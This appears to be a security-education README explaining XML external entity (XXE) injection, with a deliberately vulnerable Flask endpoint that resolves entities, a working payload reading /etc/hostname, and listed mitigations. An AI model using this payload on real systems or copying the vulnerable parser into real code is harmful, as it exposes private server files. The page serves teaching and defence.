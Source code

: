 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/xxe-injection/main/xxe-injection.png"></p>

A threat actor may interfere with an application's processing of extensible markup language (XML) data to view the content of a target's files

## Example #1
1. Threat actor sends a malicious request that contains a reference to an external entity (a system identifier)
2. The target's XML processor replaces the external entity with the content dereferenced by the system identifier 

## Code
#### Target Logic 
```py
...
@app.route("/parse_xml",methods = ['POST'])
def parse_xml():
    parser = etree.XMLParser(resolve_entities=True)
    root = etree.fromstring(request.files['xml'].read(), parser)
    response = make_response(etree.tostring(root), 200)
    response.mimetype = "text/plain"
    return response
...
```

#### Target-in
```xml
<?xml version="1.0" encoding="UTF-8"?>
<getLastName>John01</getLastName>
```

#### Target-Out
```
Jone Doe
```

#### Target-in
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE malicious [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<getInfo>&xxe;</getInfo>
```

#### Target-Out
```
usystem01
```

## Impact
High

## Names
- XXE injection
- XEE injection
- XML injection

## Risk
- Read data

## Redemption
- Secure processing
- Disable DTD and XML external entity

## ID
4b3566ce-3f7f-40d8-b882-09f59ca967b8

## References
- [wiki](https://en.wikipedia.org/wiki/XML_external_entity_attack)
